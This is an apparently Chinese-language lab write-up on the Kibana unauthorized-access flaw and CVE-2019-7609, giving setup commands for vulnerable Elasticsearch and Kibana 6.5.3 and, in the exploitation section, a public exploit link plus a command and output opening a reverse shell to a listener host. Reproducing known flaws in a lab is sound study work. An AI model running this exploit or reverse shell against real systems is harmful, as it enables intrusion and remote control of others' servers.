


# Kibana 未授权访问漏洞

## 漏洞描述

Kibana 未授权访问漏洞是指在 Kibana 未正确配置认证和授权的情况下，未经身份验证的用户可以访问 Kibana 的仪表板、数据及其他敏感信息。这种漏洞可能会导致数据泄露、攻击者控制 Kibana 环境以及其他安全威胁。

## 环境搭建

安装elasticsearch

```
cd /opt
wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.5.3.tar.gz
tar -zxvf elasticsearch-6.5.3.tar.gz
cd elasticsearch-6.5.3
useradd es
chmod 777 -R /opt/elasticsearch-6.5.3
./bin/elasticsearch
```



安装kibana

```
wget https://artifacts.elastic.co/downloads/kibana/kibana-6.5.3-linux-x86_64.tar.gz
tar xvf kibana-6.5.3-linux-x86_64.tar.gz
cd kibana-6.5.3-linux-x86_64
./bin/kibana
```

浏览器访问5601端口。



## 漏洞利用

exp：https://github.com/LandGrey/CVE-2019-7609

```
[root@localhost CVE-2019-7609-master]# python CVE-2019-7609-kibana-rce.py -u 127.0.0.1:5601 -host 192.168.32.130 -port 9999 --shell
[+] http://127.0.0.1:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 192.168.32.130:9999
```

